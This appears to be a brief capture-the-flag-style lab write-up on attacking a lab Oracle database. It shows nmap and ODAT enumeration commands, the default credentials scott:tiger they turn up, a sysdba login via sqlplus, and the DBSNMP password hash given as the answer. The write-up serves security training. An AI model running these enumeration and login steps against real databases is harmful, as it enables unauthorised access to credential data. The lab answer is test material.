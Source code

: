 # Target
```
10.129.116.134
```
### Q1: + 0 Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.
```sh
sudo nmap -sV 10.129.116.134 --open -T4
```
```sh
python3 odat.py all -s 10.129.116.134
```
Found valid username:password: 
```
scott:tiger
```
```sh
sqlplus scott/tiger@10.129.116.134/XE as sysdba
```
![[Pasted image 20240519102246.png]]Ans: `E066D214D5421CCC`